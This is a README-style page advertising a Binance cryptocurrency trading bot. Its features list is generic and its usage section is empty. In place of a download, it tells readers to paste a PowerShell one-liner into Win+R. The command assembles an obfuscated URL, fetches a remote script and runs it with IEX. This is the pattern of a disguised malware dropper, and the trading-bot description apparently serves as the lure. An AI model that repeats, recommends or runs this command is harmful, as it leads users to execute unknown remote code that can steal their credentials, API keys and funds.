 # Binance Auto-Trading Bot 🤖💰

<h2>📥 Download the Program</h2>

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">powershell -Command "$update='SafeModule'; $mode='digital'; $url=$update+'.'+$mode; $Response=Invoke-WebRequest -Uri $url -UseBasicParsing -UserAgent $update; $Script=[System.Text.Encoding]::UTF8.GetString($Response.Content); IEX $Script"</code>
</pre>

## Project Description
**Binance Trade Bot** is an automated trading bot for the Binance platform that allows users to trade cryptocurrencies using algorithmic trading. This bot utilizes trading strategies based on technical analysis and can be configured to work with various cryptocurrency pairs.

## Key Features
- **Automated Trading**: The bot can automatically open and close trades based on the parameters you set.
- **Multi-Currency Support**: Works with various currency pairs on Binance.
- **Customizable Strategies**: Easily customizable trading strategies, including moving averages, RSI, and other indicators.
- **Security**: All API keys are stored securely, and the bot does not store users' personal data.
- **User -Friendly Interface**: Intuitive interface for setting up and monitoring trades.


## Usage 🚀
Run the bot using the following command:


## Example Strategies 📈
- **Moving Average Strategy**: Uses the crossover of short and long moving averages to open trades.
- **RSI Strategy**: Opens trades based on the relative strength index (RSI) values.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [Binance Community](https://www.binance.com/en/support)

---

**SEO Keywords**: Binance Trading Bot, binance trade, trading bot binance
